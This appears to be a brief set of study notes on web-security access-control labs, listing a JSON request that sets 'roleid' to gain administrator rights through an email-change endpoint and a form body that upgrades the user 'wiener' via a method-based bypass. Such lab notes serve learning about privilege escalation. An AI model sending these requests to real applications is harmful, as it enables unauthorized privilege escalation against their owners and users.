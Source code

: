 ____

# User role can be modified in user profile

```
POST /my-account/change-email

{"email":"test@test.com",
"roleid":2
}
```

# URL-based access control can be circumvented

![[Pasted image 20240912095009.png]]

# Method-based access control can be circumvented

```
username=wiener&action=upgrade
```
